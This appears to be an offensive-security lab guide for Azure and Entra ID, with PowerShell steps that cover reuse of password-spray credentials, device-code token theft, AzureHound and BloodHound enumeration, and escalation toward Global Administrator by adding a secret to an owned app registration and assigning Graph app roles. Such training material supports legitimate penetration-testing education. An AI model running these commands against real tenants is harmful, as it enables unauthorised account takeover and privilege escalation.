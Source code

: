 


### Task 1 - Enumerate the environment using AzureHound and a user with reader permissions

1. Review the credentials that we will use for this exercise. Run the command below to print the information in the file `Lab04-Info.txt` to the console. 
```
Get-Content "$HOME\Desktop\ExerciseFiles\Modules\04\Lab04-Info.txt" 
```

2. Authenticate to Azure PowerShell using the credentials. Replace the placeholders with the actual values from the exercise file.
```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
```

3. Copy the code from the PowerShell window and paste it into the PowerShell console. 
* This initiates a device code authentication flow.
* Follow the instruction by going to https://microsoft.com/devicelogin, pasting the code from the shell, and authenticating with the first user from your password spray result.
```
$body = @{
    "client_id" =     "1950a258-227b-4e31-a9cf-717495945fc2"
    "resource" =      "https://graph.microsoft.com"
}
$UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
$Headers=@{}
$Headers["User-Agent"] = $UserAgent
$authResponse = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$authResponse
```

4. Copy the code below and paste into the PowerShell console to retrieve the tokens and store them in a variable.
```
$body=@{
    "client_id" =  "1950a258-227b-4e31-a9cf-717495945fc2"
    "grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
    "code" =       $authResponse.device_code
}
$Tokens = Invoke-RestMethod `
    -UseBasicParsing `
    -Method Post `
    -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0" `
    -Headers $Headers `
    -Body $body
$Tokens
```

5. Run the command below to remove any space in the token.
```
$cleanToken = $tokens.refresh_token -replace ' ', ''
$context = Get-AzContext
$tenantId = $context.Tenant.Id
```

6. Run the command below to use AzureHound to enumerate the tenant using the refresh token.
* **`-r`**: refresh token
* **`--tenant`**: tenant ID
* **`-v`**: verbosity level (2 is the highest)
* **`-o`**: output file
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\AzureHound"
./azurehound -r "$cleanToken" list --tenant "$tenantId" -v 2 -o azurehound-output-1.json
```

7. Log out as the reader user in Azure PowerShell.
```
Disconnect-AzAccount
```

### Task 2 - Import the data into BloodHound
1. Open a browser on your pentest VM, navigate to https://localhost:8080 and sign in (the credentials are already saved in the browser)
* In the top right corner, click on the settings icon ⚙️ → Administration
* From the left menu under Data Collection, select **`File Ingest`**
* Click the button UPLOAD FILE(S)
* Either drag-drop the `azurehound-output-1.json` that was generated in the previous step or click the upload window and select it from file explorer
* Click on Upload twice to confirm the upload, then click on CLOSE.


### Task 3 - Explore and exploit attack paths for the first user
1. Review the first user in your spray results list. You can explore that list using the following command:
```
Get-Content "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray\sprayresults.txt"
```

2. Authenticate to Azure PowerShell as the credentials. Replace the placeholders **`USERNAME`** and **`PASSWORD`** with the actual values from the spray results text file.
```
# Extract the Tenant ID from the context
$currentContext = Get-AzContext
$tenantId = $currentContext.Tenant.Id

# Connect to Azure Cloud and Azure Active Directory
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

3. In the BloodHound GUI, click on PATHFINDING and enter the following results, click on the user and then click on the **Paths** tab.
* **`Start Node`**: the first user in your spray results list
* **`End Node`**: Global Administrator

4. Step 1: the user → AZOwns → Cloud Pulse
* This means that the user is configured as an owner of the application Cloud Pulse
* We can confirm this in Azure Portal → Entra ID → Manage → App Registration → All Applications → Cloud Pulse → Manage → Owners
* This means the user can add a new secret to the application and then authenticate as the application. Let's do this using PowerZure.

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Force

Import-Module "$env:SystemDrive\PentestTools\Azure\Attack\Powerzure\Powerzure.psd1"

Add-AzureADSPSecret -ApplicationName "CloudPulse"
```

5. This adds a new secret to the application. We can now authenticate as the application using the command provideds in the output of the previous command. Copy the commands and paste them into the PowerShell console. The commands should be similar to what we have below (but copy and paste the actual putput and not the one below).
```
$ApplicationId = "APP_ID"
$SecurePassword = "APP_SECRET"
$SecurePassword = ConvertTo-SecureString -String $SecurePassword -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $ApplicationId, $SecurePassword
Connect-AzAccount -Credential $Credential -Tenant "TENANT_ID" -ServicePrincipal
```

6. Step 2: CloudPulse@Default Directory → AZPrivilegedRoleAdmin → Default Directory
* This means that App has a privileged role assignment to the tenant and we can use this to escalate privileges E.g. Assign ourselves as a global admin.
* We can confirm this in Azure Portal → Entra ID → Manage → App Registration → All Applications → Cloud Pulse → Manage → Roles and administrators
* The Cloud Application Administrator role has permissions to add addional permissions to registered apps [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference#cloud-application-administrator](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/permissions-reference#cloud-application-administrator)
* Let's do this using the Microsoft Graph PowerShell.

```
Connect-MgGraph -ContextScope CurrentUser

Import-Module Microsoft.Graph.Applications

$params = @{
	principalId = "$ApplicationId"
	resourceId = "2cab1707-656d-40cc-8522-3178a184e03d"
	appRoleId = "741f803b-c850-494e-b5df-cde7c675a1ca"
}

New-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $servicePrincipalId -BodyParameter $params
```

### REFERENCES
* https://learn.microsoft.com/en-us/graph/permissions-reference#see-also
* https://learn.microsoft.com/en-us/powershell/microsoftgraph/tutorial-grant-app-only-api-permissions?view=graph-powershell-1.0
* https://learn.microsoft.com/en-us/graph/permissions-reference#userreadwriteall
* https://matthewdavis111.com/msgraph/azure-ad-permission-details/


